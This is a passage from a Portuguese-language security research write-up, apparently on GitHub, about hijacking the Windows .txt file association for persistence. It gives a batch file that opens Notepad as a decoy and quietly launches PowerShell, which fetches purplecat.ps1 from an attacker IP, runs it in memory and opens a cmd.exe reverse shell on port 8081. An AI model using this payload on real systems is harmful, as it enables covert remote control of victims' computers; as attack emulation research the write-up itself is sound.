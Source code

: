 <p align="center">
  <img src="imagens/Editor-de-registro-HKEY.png">
  <br>
  Figura 4: Editor de registro HKEY_CLASSES_ROOT\txtfile\shell\open\command
</p>

Supomos que o usuário alvo possua uma arquivo chamado ***`test.txt`*** em sua área de trabalho, contendo o conteúdo do arquivo ilustrado abaixo:

<p align="center">
  <img src="imagens/arquivo-vitima.png">
  <br>
  Figura 5: Arquivo de teste para emulação
</p>

Iremos criar agora um arquivo malicioso que será executado quando o usuário alvo tentar abrir o arquivo chamado test.txt, sendo que com a execução desta têcnica pode ser qualquer arquivo aleatório, apenas seguindo o critério de extenção .txt usado como exemplo nesta pesquisa.

Para isso, criaremos um arquivo em lotes simples do Windows chamado ***shell.cmd*** na maquina do usuário alvo:
```zsh
start notepad.exe %1
start /min powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.140.128/purplecat.ps1');purplecat -c 192.168.140.128 -p 8081 -e cmd.exe"
```

Este comando do PowerShell baixa um script remoto chamado `purplecat.ps1` e executa em memória, pois ele não toca no disco, e em seguida, usa esse script para estabelecer uma conexão "backdoor" com uma máquina remota no endereço `IP 192.168.140.128` (ip da máquina atacante) na porta 8081, permitindo que comandos sejam executados cmd.exe nessa máquina.
